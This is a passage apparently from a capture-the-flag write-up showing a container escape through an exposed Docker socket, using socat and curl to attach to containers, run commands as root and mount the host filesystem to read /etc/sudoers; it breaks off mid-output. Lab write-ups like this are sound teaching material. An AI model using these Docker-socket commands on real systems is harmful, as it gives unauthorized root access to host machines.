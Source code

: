 

I'll connect to the container using `socat` (I had to upload a copy
downloaded from
[here](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)),
and enter an HTTP PORT request:



    root@2d24bf61767c:~# ./socat - UNIX-CONNECT:/var/run/docker.sock
    POST /containers/22c0/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
    Host: 
    Connection: Upgrade
    Upgrade: tcp



The response back shows `UPGRADED`:



    root@2d24bf61767c:~# ./socat - UNIX-CONNECT:/var/run/docker.sock
    POST /containers/22c0/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
    Host: 
    Connection: Upgrade
    Upgrade: tcp
                                  
    HTTP/1.1 101 UPGRADED   
    Content-Type: application/vnd.docker.raw-stream
    Connection: Upgrade
    Upgrade: tcp                                                                                                              



At this point the terminal is just hanging, but if I give it a command,
it runs and returns results:



    id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27
    (video)



I can easily read `root.txt`, or use the techniques that follow to get a
full shell.

### Shell

There's a ton of ways to get a shell with root file system access. I'll
add myself to the `/etc/sudoers` file. It by default looks like:



    root@2d24bf61767c:~# id=$(curl --unix-socket /var/run/docker.sock -s -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/rootfs"]}, "Cmd": ["/bin/sh", "-c", "cat /rootfs/etc/sudoers"], "Tty": true}' http://localhost/containers/create | cut -d'"' -f4); curl --unix-socket /var/run/docker.sock -s -X POST -H "Content-Type: application/json" http://localhost/containers/${id}/start; curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/${id}/logs?stderr=1&stdout=1"
    #
    # This file MUST be edited with the 'visudo' command as root.
    #
    # Please consider adding local content in /etc/sudoers.d/ instead of
    # directly modifying this file.
    #